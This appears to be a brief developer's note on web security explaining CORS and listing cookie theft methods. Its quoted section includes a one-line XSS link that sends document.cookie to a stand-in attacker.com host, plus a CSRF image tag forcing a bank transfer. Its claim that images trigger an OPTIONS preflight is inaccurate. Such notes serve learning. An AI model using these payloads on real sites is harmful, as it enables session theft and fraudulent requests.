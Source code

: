 
## Related Topics

### CORS

> A web page may freely embed cross-origin images, stylesheets, scripts, iframes, and videos. Certain "cross-domain" requests, notably AJAX requests, are forbidden by default by the same-origin security policy. CORS defines a way in which a browser and server can interact to determine whether it is safe to allow the cross-origin request.

On the browser side, for "cross-domain" requests, for example, during opening the page:

```html
<!-- http://www.exmaple.com/index.html -->
<p>Look at this amazing cat!</p>
<img src="https://blog.example/blog/img/amazing-cat.png" />
```

browser send http requst `OPTIONS https://blog.example/blog/img/amazing-cat.png` with

```
Origin: http://www.example.com/index.html
```

On the Web Server side,

- Which origin are allowed to make the requests?

You can simply send `Access-Control-Allow-Origin: *` back for allowing all requests.

### Cookie Theft And Abuse

> - Cross-site scripting. If the website that allows its users to post unfiltered HTML and JavaScript content. E.g. `<a href="#" onclick="window.location = 'http://attacker.com/stole.cgi?text=' + escape(document.cookie); return false;">Click here!</a>
> - DNS cache poisoning. An attacker could use DNS cache poisoning to create a fabricated DNS entry of `attacker.www.example.com` that points to the IP address of the attacker's server and send user an email with the link to attacker.www.example.com.
> - Cross-site request forgery. Attacker send email with an image `<img src="http://bank.example.com/transfer?account=bob&amount=1000000&to=mallory">`


## Refs.

1. https://en.wikipedia.org/wiki/HTTP_cookie
2. https://stackoverflow.com/questions/15198231/why-cookies-and-set-cookie-headers-cant-be-set-while-making-xmlhttprequest-usin
3. https://web.dev/samesite-cookies-explained/
4. https://developers.google.com/web/fundamentals/security/prevent-mixed-content/what-is-mixed-content